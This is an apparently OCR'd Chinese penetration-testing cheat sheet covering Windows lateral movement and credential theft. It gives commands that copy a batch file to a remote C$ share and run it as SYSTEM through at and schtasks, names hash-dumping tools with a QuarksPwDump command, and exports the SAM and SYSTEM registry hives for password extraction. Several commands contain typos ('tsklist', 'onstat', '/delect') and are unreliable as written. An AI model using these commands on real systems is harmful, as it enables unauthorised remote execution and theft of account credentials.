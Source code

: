 - dir命令

```
dir
```

- tasklist

```
tsklist 列出进程
```

#### 计划任务

- at(08之前)

```
1.net time \\192.168.100.190
2.copy calc.bat \\192.168.100.190\c$
3.at \\192.168.100.190 4:11pm c:\calc.bat
4.at \\192.168.100.190 7 /delete

执行命令

at \\192.168.100.190 4:41pm cmd.exe \c "ipconfig>c:/1.txt"
type \\192.168.100.190\c$\1.txt
```

- schtasks（08之后）

```
schtasks /create /s 192.168.100.190 /tn /test /sc onstat /tr c:\calc.bat /ru system /f 创建计划任务（test 计划任务名字 启动权限为system）

schtasks /run /s 192.168.100.190 / i /tn "test" 运行计划任务

schtasks /delect /s 192.168.100.190 /tn "test" /F 删除计划任务

net use 名称 /del /y 删除ipc$
```

### windows系统散列值获取
#### 单机密码抓取

- GetPass
- PwDump7
- QuarksPwDump

```
QuarksPwDump.exe --dump-hash-local
```
##### 通过SAM和system文件抓取密码

- 导出SAM和System文件

```
reg save hklm\sam sam.hive
reg save hklm\system system.hive
```
